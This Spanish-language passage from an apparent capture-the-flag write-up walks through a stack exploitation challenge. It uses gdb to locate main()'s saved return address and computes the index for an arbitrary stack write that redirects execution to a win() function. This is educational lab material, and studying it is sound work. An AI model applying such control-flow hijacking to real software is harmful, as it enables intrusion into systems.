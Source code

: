 De vuelta a nuestro reto, como tenemos una primitiva que nos permite alterar cualquier valor de la stack, el objetivo es modificar la dirección de retorno de la función `main()` con la dirección de la función `win()`. Así conseguimos alterar el flujo de ejecución, ya que cuando la función `main()` termine y ejecute la instrucción `ret` saltará a la función `win()`.

Para obtener la dirección de la stack en la que se encuentra la dirección de retorno que queremos modificar hay varias opciones. Una de ellas es ejecutar el programa con `gdb`, poner un breakpoint al final de la función `main()`, y examinar la stack.

```
(gdb) start
Punto de interrupción temporal 1 at 0x401b4e: file touch.c, line 14.
Starting program: /tmp/touch

Temporary breakpoint 1, main () at touch.c:14
(gdb) disassemble main
Dump of assembler code for function main:
[...]
   0x0000000000401c9e <+348>:   leave  
   0x0000000000401c9f <+349>:   ret    
End of assembler dump.
(gdb) break *0x0000000000401c9f
Punto de interrupción 2 at 0x401c9f: file touch.c, line 37.
(gdb) continue
Continuando.
Código secreto de ayuda para flag2: 0x7fffffffd8d0
Introduce un índice: 0
Introduce un valor: 0
Nope! Valores: 31337 31337

Breakpoint 2, 0x0000000000401c9f in main () at touch.c:37
(gdb) print $rsp
$1 = (void *) 0x7fffffffd8f8
(gdb) x/gx $rsp
0x7fffffffd8f8: 0x00000000004020ca
```

Vemos que normalmente `main()` retorna a la dirección `0x4020ca`, que se encuentra en la dirección de la stack `0x7fffffffd8f8`. Otra forma de obtener dicha dirección es con el comando `info frame`, que nos indica cuál es la dirección de retorno (`0x4020ca`) y donde se encuentra (`0x0x7fffffffd8f8`).

```
(gdb) info frame
Stack level 0, frame at 0x7fffffffd900:
 rip = 0x401b4e in main (touch.c:14); saved rip = 0x4020ca
 [...]
 Saved registers:
  rbp at 0x7fffffffd8f0, rip at 0x7fffffffd8f8
```

Aplicando la fórmula anterior obtenemos el índice que debemos introducir para modificar la dirección de retorno:

```
>>> (0x7fffffffd8f8 - 0x7fffffffd8d0)//8
5
```
